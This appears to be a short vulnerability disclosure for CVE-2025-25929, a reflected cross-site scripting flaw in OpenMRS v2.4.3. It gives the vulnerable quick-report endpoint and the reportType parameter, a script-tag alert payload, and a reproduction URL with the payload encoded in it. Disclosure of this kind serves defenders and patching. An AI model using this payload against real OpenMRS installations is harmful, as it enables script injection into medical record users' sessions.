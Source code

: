 # CVE-2025-25929

---

## Reflected XSS


OpenMRS v2.4.3 Build 0ff0ed allows attackers to execute arbitrary JavaScript or HTML by injecting a crafted payload into the reportType 
 parameter at the /openmrs/moduleServlet/legacyui/quickReportServlet endpoint resulting in reflected XSS.

* Vulnerable Endpoint: /openmrs/moduleServlet/legacyui/quickReportServlet
* Vulnerable Param: reportType
* Payload: <script>alert(document.domain)</script>

---

### Steps to reproduce:

1.) Authenticate as any user who has access to View Quick Reports, in this case the Admin user.

2.) Proceed to http://localhost:8080/openmrs/moduleServlet/legacyui/quickReportServlet?reportType=RETURN+VISIT+DATE+THIS+WEEK%3Cscript%3Ealert(document.domain)%3C/script%3E&startDate=01%2F14%2F2025&endDate=01%2F15%2F2025&location= and observe reflected XSS within the reportType parameter:

![image](https://github.com/user-attachments/assets/f2aed519-9444-4c9d-b772-d03e253f705c)



